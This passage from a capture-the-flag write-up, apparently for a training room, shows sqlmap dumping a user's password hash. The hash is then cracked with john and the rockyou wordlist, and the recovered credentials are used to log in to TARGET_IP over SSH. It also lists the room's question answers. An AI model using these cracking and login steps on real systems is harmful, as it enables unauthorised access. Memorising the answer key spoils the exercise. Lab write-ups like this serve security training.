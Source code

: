 ```shell-session
do you want to crack them via a dictionary-based attack? [Y/n/q] 

...

what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1

...

do you want to use common password suffixes? (slow!) [y/N] N

...
```

This gives us the password hash for the user: `agent47`.

> In the users table, what is the hashed password?
>
> Answer: `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

> What was the username associated with the hashed password?
>
> Answer: `agent47`

We also obtain entries listed in a table called: `post` under the database: `db`.

> What was the other table name?
>
> Answer: `post`


Now that the password hash for `agent47` is obtained, we can use `john` to crack this and obtain the password for the user. 
```shell-session
$ echo ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 > hash.txt

$ sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
...
videogamer124    (?)     
```

> What is the de-hashed password?
>
> Answer: `videogamer124`

We can now try to log into the server using `ssh` and the credentials: `agent47:videogamer124`.

## Gaining Access

Using the credentials from the reconnaissance phase, we now log into the server's ssh service.
```shell-session
$ ssh agent47@TARGET_IP
...
agent47@TARGET_IP's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


```